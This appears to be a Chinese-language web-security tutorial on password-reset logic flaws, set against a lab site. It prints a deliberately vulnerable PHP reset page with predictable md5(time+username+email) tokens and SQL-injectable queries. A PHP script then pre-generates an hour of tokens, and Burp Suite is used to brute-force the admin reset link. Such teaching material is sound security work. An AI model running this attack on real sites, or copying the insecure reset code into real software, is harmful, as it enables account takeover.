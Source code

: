 为了防止用户遗忘密码，大多数网站都提供了找回密码功能。常见的找回密码方式有：邮箱找回密码、根据密码保护问题找回密码、根据手机号码找回密码等。虽然这些方式都可以找回密码，但实现方式各不相同。无论是哪种密码找回方式，在找回密码时，除了自己的用户密码，如果还能找回其他用户的密码，就存在密码找回漏洞。

密码找回漏洞在逻辑漏洞中占了较大的比例。测试密码找回漏洞与其他逻辑漏洞的方法相同，其中必经的两个步骤是：熟悉业务流程（密码找回过程）与对流程中的HTTP请求分析。

```php
<?php
include 'init.php';
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}

echo ' <meta charset="UTF-8">';
if($_GET['c']=='forget'){
	$username= trim($_POST['username']);
	$re=mysql_query("select * from member where username='{$username}'");
	$row = mysql_fetch_array($re);
	$_email = $row['email'];
	if($row){	
		echo "<form method='post' action='?c=email'>";
		echo "用户{$row['username']}存在  请输入用户的邮箱";
		echo "<input type='text' name='email'/>";
		echo "<input type='hidden' name='username' value='{$row['username']}'/>";
		echo "<input type='submit' value='发送key'/></form>";
	}	
}

if($_GET['c']=='email'){
	$username= trim($_POST['username']);
	$re=mysql_query("select * from member where username='{$username}'");
	$row = mysql_fetch_array($re);
	$email= trim($_POST['email']);
	if($email == $row['email']){
		$token=create_pass($row['username'],$row['email']);
		mysql_query("update member set token='{$token}' where id='{$row['id']}'");
		echo "密码已发送到邮件，请登录邮箱修改密码";
	}else{
		echo "邮箱错误 请填写对应的邮箱";
	}
}

if($_GET['c']=='send'){
	$token = trim($_GET['token']);
	$re = mysql_query("select * from member where token='{$token}'");
	$row = mysql_fetch_array($re);
	if($row){
		echo "<form method='post' action='?c=pass'>";
		echo "输入你要修改的密码 ";
		echo "<input type='text' name='password'/>";
		echo "<input type='hidden' name='token' value='{$token}'/>";
		echo "<input type='submit' value='修改密码'>";
	}
}

if($_GET['c']=='pass'){
	$token = $_POST['token'];
	$password =md5(trim($_POST['password']));
	$re = mysql_query("update member set password ='{$password}' where token = '{$token}'");
	if($re){
		echo "修改成功";
	}else{
		echo "修改失败";	
	}
}

if($_GET['c']=='login'){
	echo '<form method="post" action="?c=main">';
	echo '用户 <input type="text" name="username"><br>';
	echo '密码 <input type="password" name="password"><br>';
	echo '<input type="submit" value="登录">';
	echo '</form>';	
}

if($_GET['c']=='main'){
	$username = $_POST['username'];
	$password = md5($_POST['password']);
	$re = mysql_query("select * from member where username='{$username}' and password='{$password}'");
	$row = mysql_fetch_array($re);
	if($row){
		echo "{$row['username']} 登录成功";
	}else{
			echo "帐号或密码失败";
		}	
}

if(empty($_GET['c'])){
echo '<form method="post" action="?c=forget">';
echo '<label>请输入你要查询的用户</label>';
echo '<input type="text" name="username">';
echo '<input type="submit" value="找回密码">';
echo '</form>';
}
?>
```

需要更改用户是admin  [moon@moonsec.com](mailto:moon@moonsec.com) 发邮件 邮件就有

http://www.webtester.com/forget.php?c=send&token=f77a04b47d4b859b4119cdea9b9a01f9

访问链接修改密码

http://www.webtester.com/forget.php?c=login 

主要看这个函数是否可以预测

```php
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}
```

time是每一秒都会变

```http
https://tool.lu/timestamp/
```

![image-20210418214352544](../acess/image-20210418214352544.png) 

md5(当前时间戳 +用户名)  生成 token 原理

当前面条件 都通过之后就可以 生成token

我们在提交key的之前 生成一分钟或者一个小时以内的token 用脚本去访问每一个链接

http://www.webtester.com/forget.php?c=send&token=f77a04b47d4b859b4119cdea9b9a01f9

假如存在的token就可以修改密码。

这个是根据这套程序生成一小时的token

```php
<?php
function create_pass($username,$email){
	$token=md5(time().$username.$email);
	return $token;
}

for($i=1;$i<=3600;$i++){
	$timex= create_pass('admin','moon@moonsec.com');
	write_file($timex."\n");
	echo $i."\r\n";
	sleep(1);	
}

function write_file($c){
	fwrite(fopen("time.txt", "a+"),$c);
}
?>
```

在php里面运行脚本php time.php

提交admin和 [moon@moonsec.com](mailto:moon@moonsec.com)邮箱 发送key

![img](../acess/wps6.jpg) 

用brupsuite 抓包修改变量 选择payload 读入文件time.txt

![img](../acess/wps7.jpg) 

![img](../acess/wps8.jpg) 

成功的token

![img](../acess/wps9.jpg) 

访问穷举出来的 token访问url

http://www.webtester.com/forget.php?c=send&token=f77a04b47d4b859b4119cdea9b9a01f9

![image-20210425004513265](../acess/image-20210425004513265.png)

修改成功之后登录

![image-20210425005059658](../acess/image-20210425005059658.png)

本地生成token出错的原因 是 程序没有设置地区时间时间戳就会不一样 导致出错。
